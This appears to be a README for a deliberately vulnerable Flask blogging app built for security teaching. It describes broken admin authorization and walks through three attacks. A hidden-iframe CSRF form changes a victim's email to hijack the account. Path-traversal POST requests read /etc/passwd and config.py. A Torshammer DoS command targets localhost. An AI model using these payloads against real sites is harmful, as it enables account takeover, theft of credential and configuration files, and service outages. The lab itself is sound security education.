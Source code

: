 # Setup
- For Linux.
- Download Python 3.6+ version and install.
- Go inside the project directory and open in terminal.
- Follow steps to create a virtual environment in your system (optional) 
    - Run command `pip install virtualenv` to install virtual package manager
    - Make a virtual environment using command `virtualenv env`
    - Now activate your virtual environment: `source env/bin/activate`
    
- Install all project dependencies: `pip install -r requirements.txt` or `pip3 install -r requirements.txt`
- Finally, run application: `python app.py` or  `python3 app.py`

<br>

# Insecure Application

## 1. Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using bruteforce.
Attacker has a list of popular API endpoints.<br>
```
python3 bruteforce-url.py
/admin 200
/admin/ 200
/login 200
/user/login 405
```

2. Attacker logs in as a normal user and then tries to access admin page. Due to improper authorization, attacker is granted access.


## 2. Gain Access Hijacking 
An attacker can go through all the APIs used by the Blogging application and try to find vulnerabilities. Here, they will find an API which is used 

Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

Attacker can inspect the update-profile page to learn the working of the API call; then create a fake HTML form with attackers details.
```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```

## 3. Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 

Attacker can inspect the update-profile page to learn the working of the API call that fetches the profile picture; then send requests containing malicious filename.

```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 4. Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 